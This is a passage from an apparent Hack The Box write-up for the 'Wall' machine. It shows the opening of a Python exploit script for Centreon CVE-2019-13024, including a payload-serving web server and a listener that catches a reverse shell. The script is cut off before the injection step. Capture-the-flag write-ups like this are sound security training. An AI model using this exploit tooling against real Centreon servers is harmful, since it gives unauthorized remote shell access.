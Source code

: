 Now let's work on the other CVE that we got on this box. It's another approach.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2002:25:07.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2002:24:55.png)

other_centreon.py

```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Wall
# Reverse Shell Centreon
# CVE-2019-13024
# https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py

import argparse
import requests
import sys
import os
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
```